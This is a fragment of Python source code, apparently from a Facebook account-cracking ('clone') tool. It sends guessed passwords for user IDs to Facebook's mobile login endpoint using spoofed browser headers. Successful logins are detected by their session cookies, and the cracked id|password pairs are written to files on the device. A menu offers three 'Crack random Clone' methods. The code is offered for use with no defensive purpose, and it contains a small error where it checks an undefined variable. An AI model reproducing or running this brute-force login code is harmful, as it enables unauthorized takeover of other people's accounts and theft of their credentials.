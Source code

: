 			head = {'Host': 'p.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
			getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
			complete = session.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
			SHAHBAZ=session.cookies.get_dict().keys()
			if "c_user" in SHAHBAZ:
				coki=session.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
				print('\r\r\033[1;32m[keramat-OK] %s | %s'%(ids,pas))
				
				open('/sdcard/keramat-OK.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in SAKING:
				if 'y' in pcp:
					print('\r\r\x1b[38;5;208m[keramat-CP] '+ids+' | '+pas+'\033[1;97m')
					
					open('/sdcard/keramat-CP.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)
	loop+=1
def menu():
	os.system('clear')
	print(logo)
	print('\x1b[97;1m[1] Crack random Clone Method 1')
	print('\x1b[97;1m[2] Crack random Clone Method 2')
	print('\x1b[97;1m[3] Crack random Clone Method 3')
	linex()
	opt = input('\x1b[97;1m[√] SELECT OPT: ')
	if opt =='1':
		random_number1()
	elif opt =='2':
		random_number2()
	elif opt =='3':
		random_number3()
	